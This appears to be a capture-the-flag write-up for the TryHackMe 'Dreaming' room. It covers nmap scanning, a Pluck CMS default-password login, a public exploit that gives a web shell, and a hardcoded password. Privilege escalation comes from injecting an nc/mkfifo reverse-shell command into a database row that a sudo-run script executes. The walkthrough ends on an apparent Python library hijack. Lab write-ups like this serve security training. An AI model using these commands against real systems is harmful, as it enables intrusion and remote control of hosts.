 link: https://tryhackme.com/room/dreaming

<code>
└─$ nmap -sV -sC -Pn dreaming.thm        
Starting Nmap 7.92 ( https://nmap.org ) at 2024-01-12 04:22 CST
Nmap scan report for dreaming.thm (10.10.57.14)
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 76:26:67:a6:b0:08:0e:ed:34:58:5b:4e:77:45:92:57 (RSA)
|   256 52:3a:ad:26:7f:6e:3f:23:f9:e4:ef:e8:5a:c8:42:5c (ECDSA)
|_  256 71:df:6e:81:f0:80:79:71:a8:da:2e:1e:56:c4:de:bb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

 nmap, gobuster

http://dreaming.thm/app/pluck-4.7.13/?file=dreaming

<h2> Initial access </h2>

whoops default admin password is password
http://dreaming.thm/app/pluck-4.7.13/admin.php?action=start

use known exploit to get reverse shell
https://www.exploit-db.com/exploits/49909
─$ python3 49909.py 10.10.57.14 80 password /app/pluck-4.7.13/



p0wny@shell:/home# ls -la
total 20
drwxr-xr-x  5 root     root     4096 Jul 28 22:26 .
drwxr-xr-x 20 root     root     4096 Jul 28 22:35 ..
drwxr-xr-x  4 death    death    4096 Aug 25 20:04 death
drwxr-xr-x  5 lucien   lucien   4096 Aug 25 16:26 lucien
drwxr-xr-x  3 morpheus morpheus 4096 Aug  7 23:48 morpheus



<h2> PrivEsc to Lucien </h2>

run linpeas found interesing files 
www-data@dreaming:/opt$ ls -la
ls -la
total 16
drwxr-xr-x  2 root   root   4096 Aug 15 12:45 .
drwxr-xr-x 20 root   root   4096 Jul 28 22:35 ..
-rwxrw-r--  1 death  death  1574 Aug 15 12:45 getDreams.py
-rwxr-xr-x  1 lucien lucien  483 Aug  7 23:36 test.py
www-data@dreaming:/opt$ cat test.py
cat test.py
import requests
#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "HeyLucien#@1999!"

data = {
        "cont1":password,
        "bogus":"",
        "submit":"Log+in"
        }

req = requests.post(url,data=data)

if "Password correct." in req.text:
    print("Everything is in proper order. Status Code: " + str(req.status_code))
else:
    print("Something is wrong. Status Code: " + str(req.status_code))
    print("Results:\n" + req.text)
www-data@dreaming:/opt$ su lucien
su lucien
<b>Password: HeyLucien#@1999!</b>
id
uid=1000(lucien) gid=1000(lucien) groups=1000(lucien),4(adm),24(cdrom),30(dip),46(plugdev)

get Lucien password login via ssh

<h2> PrivEsc to Death </h2>

lucien@dreaming:/opt$ sudo -l
Matching Defaults entries for lucien on dreaming:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on dreaming:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py


lucien@dreaming:~$ mysql -u lucien -plucien42DBPASSWORD
mysql> use library
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
mysql> show tables;
+-------------------+
| Tables_in_library |
+-------------------+
| dreams            |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from dreams;
+---------+------------------------------------+
| dreamer | dream                              |
+---------+------------------------------------+
| Alice   | Flying in the sky                  |
| Bob     | Exploring ancient ruins            |
| Carol   | Becoming a successful entrepreneur |
| Dave    | Becoming a professional musician   |
+---------+------------------------------------+

mysql> UPDATE dreams  set dreamer = 'id& rm', dream = ' /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.30.202 4445 >/tmp/f' WHERE dreamer = 'id& id';
Query OK, 1 row affected (0.01 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from dreams;
+-----------------+--------------------------------------------------------------------------------+
| dreamer         | dream                                                                          |
+-----------------+--------------------------------------------------------------------------------+
| Alice           | Flying in the sky                                                              |
| Bob             | Exploring ancient ruins                                                        |
| Carol           | Becoming a successful entrepreneur                                             |
| Dave            | Becoming a professional musician                                               |
| id& rm          |  /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.30.202 4445 >/tmp/f |
+-----------------+--------------------------------------------------------------------------------+

and run
lucien@dreaming:~$ sudo -u death /usr/bin/python3 /home/death/getDreams.py

<h2>get reverse shell as death </h2>

run linpeas
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                   
  Group death:                                                                                                      
/usr/lib/python3.8/shutil.py     
╔══════════╣ Unexpected in root
/kingdom_backup                                                                                                     
/swap.img

death@dreaming:/home/morpheus$ cat restore.py
cat restore.py
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")





<\code>
